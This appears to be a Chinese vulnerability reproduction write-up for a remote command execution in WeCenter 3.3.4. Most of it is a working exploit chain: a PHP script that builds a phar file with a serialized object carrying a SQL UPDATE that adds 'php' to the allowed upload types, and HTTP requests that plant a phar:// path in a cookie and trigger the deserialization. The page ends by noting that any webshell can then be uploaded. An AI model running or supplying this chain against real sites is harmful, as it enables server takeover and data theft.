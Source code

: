# WeCenter 3.3.4 远程命令执行

### 一、漏洞简介

### 二、漏洞影响

WeCenter 3.3.4

### 三、复现过程

**远程命令执行**

WeCenter 后台的 允许的附件文件类型 处，设置了用户可上传的文件类型后缀。而这个配置是写在数据库中的，我们可以利用前面的任意 SQL 语句执行的 POP 链，往字段中添加 php 文件后缀。

![](images/15893803429903.png)


poc


```php
<?php
class AWS_MODEL
{
    private $_shutdown_query = array();

    public function __construct($_shutdown_query)
    {
        $this->_shutdown_query = $_shutdown_query;
    }
}

$sql = array('update aws_system_setting set value=\'s:45:"jpg,jpeg,png,gif,zip,doc,docx,rar,pdf,psd,php";\' where varname=\'allowed_upload_types\'');
$evilobj = new AWS_MODEL($sql);
// phar.readonly无法通过该语句进行设置: init_set("phar.readonly",0);
$filename = 'poc.phar';// 后缀必须为phar，否则程序无法运行
file_exists($filename) ? unlink($filename) : null;
$phar=new Phar($filename);
$phar->startBuffering();
$phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($evilobj);
$phar->addFromString("foo.txt","bar");
$phar->stopBuffering();
?>
```

利用

这里以 RCE 利用为例子。我们先用上面的 EXP 生成文件，然后找个可以上传文件的地方。这里要注意，一定不要选择在用户头像处上传。这里我们通过发起问题的地方来上传文件。

![](images/15893803615248.png)


通过如下数据包，将 headimgurl 插入数据库中（ Cookie 前缀每个网站都不一样，修改成自己的即可）。


```bash
GET /wecenter334/?/m/weixin/binding/ HTTP/1.1
Host: 0.0.0.0
Cookie: XDEBUG_SESSION=PHPSTORM; Hm_lvt_f8d0a8c400404989e195270b0bbf060a=1578564275,1578582675,1578897163; UM_distinctid=16fa7f15a43278-0cbd6002fe98e4-31730657-100200-16fa7f15a44385; xhj__Session=akl7d5skae6ebea69bp8r1b4f0; CNZZDATA1273638993=564846603-1579067041-%7C1579097763; xhj__user_login=NcIFvaZbkaxoQfofEGo%2FSOCyrXq5R0lZofmF9uqaJHO5tpVyag7GEP3fdh9hKvPUf8Xj4x3kkxgLXcf1L4wocSQu9BUquhozfdiEN2Hfg8vj73XVn1f09yLfbpfbVs7K; xhj__WXConnect={"access_token":{"openid":1},"access_user":{"headimgurl":"phar:\/\/uploads\/question\/20200116\/f39510a7e8e47e3e4dcabbadeedd12f7.gif","nickname":"mochazz"}}
Connection: close
$wx = array(
    'access_token' => array('openid'=>1),
    'access_user'  => array('headimgurl'=>'phar:///uploads/question/20200116/f39510a7e8e47e3e4dcabbadeedd12f7.gif','nickname'=>'mochazz')
);
echo json_encode($wx);
```

接着通过如下数据包触发 phar反序列化 执行 SQL 语句。


```bash
GET /wecenter334/?/account/ajax/synch_img/ HTTP/1.1
Host: 0.0.0.0
Cookie: XDEBUG_SESSION=PHPSTORM; Hm_lvt_f8d0a8c400404989e195270b0bbf060a=1578564275,1578582675,1578897163; UM_distinctid=16fa7f15a43278-0cbd6002fe98e4-31730657-100200-16fa7f15a44385; xhj__Session=qb72k9k1sl53gqibbg53nf32o1; CNZZDATA1273638993=564846603-1579067041-%7C1579137884; xhj__user_login=N9hSYaQOjPMdtxOXo9jQuCVQSykmK88gl3DTI4AmL%2BnhLpgnHFGGSHkzxAPYaVMbXo%2FAndADc%2FaD0wytUEK71YrLmxWCuEZDCSwn9b0ApyOpcIKa6E4cOotHqZpZwVq%2B
Connection: close
```

现在，我们就可以随意上传 webshell 了。

![](images/15893803896136.png)


![](images/15893803958032.png)
